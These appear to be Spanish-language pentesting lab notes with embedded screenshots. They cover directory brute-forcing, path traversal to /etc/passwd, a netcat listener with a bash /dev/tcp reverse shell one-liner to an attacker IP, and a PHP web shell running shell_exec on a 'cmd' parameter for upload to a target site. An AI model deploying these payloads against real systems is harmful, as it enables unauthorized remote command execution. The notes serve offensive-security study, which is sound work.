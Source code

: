 Esto hará algo parecido a gobuster pero con un mini diccionario, se trata de un ataque pequeño y rápido:

![[Pasted image 20221217112244.png]]

## COMPARTIR ARCHIVOS POR SERVIDOR WEB

Para ello nos ubicamos dentro del directorio que queramos compartir y ejecutamos lo siguiente:

![[Pasted image 20221217112301.png]]

Ahora si hacemos un localhost o introducimos la IP que nos dicen, aparecerá lo siguiente:

![[Pasted image 20221217112310.png]]

## ACCEDER A ETC/PASSWD CON PATH TRAVERSAL

Para ello iremos a la siguiente ruta:

![[Pasted image 20221217112323.png]]

## CONSEGUIR REVERSE SHELL DE MÁQUINA VÍCTIMA A NUESTRO EQUIPO

Para ello primero pondremos a escuchar con netcat desde nuestro equipo host:

![[Pasted image 20221217112335.png]]

Después, desde la máquina víctima necesitaremos que ejecute el siguiente código para enviarnos una bash:

![[Pasted image 20221217112344.png]]

Aunque si lo hacemos desde un navegador, debemos escribirlo de esta manera, porque al poner bash -c seleccionamos el intérprete:

bash -c 'bash -i >& /dev/tcp/10.10.16.27/443 0>&1’

![[Pasted image 20221217112353.png]]

# CÓDIGO PHP MALICIOSO PARA GANAR REVERSE SHELL

Esto se utiliza para subir este fichero php a una web que funcione con este lenguaje para después acceder a dicho documento desde algún directorio de uploads de la web; y así ganar ejecución remota de comandos:

<?php
        echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
?>

![[Pasted image 20221218213646.png]]
## CÓMO ESCALAR PRIVILEGIOS UNA VEZ HEMOS OBTENIDO LA REVERSE SHELL
